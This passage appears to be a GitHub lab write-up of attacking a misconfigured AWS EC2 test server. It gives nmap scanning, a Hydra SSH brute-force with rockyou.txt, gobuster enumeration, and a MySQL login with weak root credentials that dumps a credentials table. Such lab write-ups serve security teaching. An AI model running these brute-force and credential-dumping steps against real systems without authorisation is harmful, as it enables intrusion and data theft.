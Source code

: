 ## 1.1 Exploiting the EC2 Instance

The `my-test-server` EC2 instance was targeted due to its misconfigured security group allowing broad access.

1.  **Reconnaissance (Nmap Scan):**
    A comprehensive port scan revealed open services:
    ```bash
    nmap -sS -sV -Pn 54.253.171.196 # Replace with your EC2 public IP
    ```
![Screenshot From 2025-06-20 01-08-44](https://github.com/user-attachments/assets/e7d2b1bf-6a28-46fe-8b8c-8f1de1337df2)


    * **Observation:** Ports **22 (SSH)**, **80 (HTTP)**, and **3306 (MySQL)** were found open.

2.  **SSH Brute-Force Attack (Hydra):**
    Attempted to obtain SSH login credentials using a wordlist attack:
    ```bash
    hydra -l ec2-user -P /usr/share/wordlists/rockyou.txt ssh://54.253.171.196 # Replace with your EC2 public IP
    ```

![Screenshot From 2025-06-19 02-58-40](https://github.com/user-attachments/assets/dd3f4d6b-ff13-4f6f-998b-0c8cddb582c7)

    * **Result:** SSH login via password is disable for this account.

3.  **Web Service Enumeration (Gobuster):**
    Enumerated web application directories to identify potential vulnerabilities:
    ```bash
    gobuster dir -u [http://54.253.171.196](http://54.253.171.196) -w /usr/share/wordlists/dirb/common.txt # Replace with your EC2 public IP
    ```

![Screenshot From 2025-06-19 03-01-44](https://github.com/user-attachments/assets/add43578-835e-464f-b7b3-7c8787fbc6d4)

    * **Observation:** No robust authentication or input validation was found, indicating potential attack vectors like directory traversal or Local File Inclusion (LFI).

4.  **MySQL Database Exploitation:**
    Accessed the MySQL service using default or weak credentials:
    ```bash
    mysql -h 54.253.171.196 -u root -p # Replace with your EC2 public IP
    # Enter password: root@
    ```
    * **Credentials Used:** `Username: root`, `Password: root@`
    * **Result:** Successful login provided access to all databases. Sensitive data (usernames, credentials, system logs) were retrieved using SQL queries (e.g., `SHOW DATABASES; USE users; SELECT * FROM credentials;`).

![Screenshot From 2025-06-20 01-19-10](https://github.com/user-attachments/assets/89a4165b-86b4-4236-912f-7baf61668c6a)

![Screenshot From 2025-06-20 01-19-27](https://github.com/user-attachments/assets/01a1fd57-eaa6-4a1a-aaf9-bd59fc6b1236)
